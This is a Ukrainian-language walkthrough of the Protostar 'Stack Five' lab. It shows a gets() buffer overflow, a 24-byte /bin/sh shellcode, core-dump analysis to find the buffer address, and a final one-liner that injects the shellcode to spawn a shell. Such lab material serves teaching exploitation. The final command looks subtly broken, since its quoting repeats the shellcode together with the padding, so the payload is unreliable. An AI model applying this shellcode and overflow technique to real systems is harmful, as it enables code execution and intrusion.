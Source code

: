 ## [Stack Five](http://exploit.education/protostar/stack-five/)

Stack5 — це стандартне переповнення буфера, цього разу включаючи шелл-код.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі.
Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код.
Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:  
```
24 bytes
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```  

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, 
щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання (програма ```gdb``` трохи змінює стек, тому дійсна адреса може трохи відрізнятися від отриманої):  
```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
``` 

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Давайте завантажимо згенерований дамп ядра і знайдемо буфер:  
```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```

![Core Dump](img/core_dump.png)  

Як видно на рисунку, програма вже намагалася виконати адресу 0x41414141 ('AAAA'), тому зміщення правильні. 
Буфер користувача починається з 0xbffffd10. Отже, маємо:  
```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80 + \xcc' * (76 - 24) + '\xbf\xff\xfd\x10'[::-1])"; cat) | ./stack5```

![Shell Test](img/shell_test.png)  